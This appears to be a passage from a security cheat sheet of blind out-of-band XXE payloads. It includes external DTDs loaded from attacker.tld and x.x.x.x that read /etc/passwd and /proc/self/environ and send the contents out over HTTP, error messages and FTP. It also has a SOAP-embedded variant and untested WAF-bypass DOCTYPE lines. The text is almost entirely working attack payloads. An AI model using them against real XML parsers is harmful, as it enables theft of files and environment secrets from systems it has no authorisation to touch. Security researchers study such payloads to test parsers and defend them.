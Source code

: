 ```
File-not-found exception based extraction
------------------------------------------------------------------

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>

## External dtd: ##

<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">

-------------------------^ you might need to encode this % (depends on your target) as: &#x25;

--------------
FTP
--------------
<?xml version="1.0" ?>
<!DOCTYPE a [ 
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>


## External dtd ##
<!ENTITY % d SYSTEM "file:///proc/self/environ">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">

---------------------------
Inside SOAP body
---------------------------
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>


---------------------------
Untested - WAF Bypass
---------------------------
<!DOCTYPE :. SYTEM "http://"
<!DOCTYPE :_-_: SYTEM "http://"
<!DOCTYPE {0xdfbf} SYSTEM "http://"
```

### 0x08 参考

[翻译link]https://hawkinsecurity.com/2018/03/24/gaining-filesystem-access-via-blind-oob-xxe/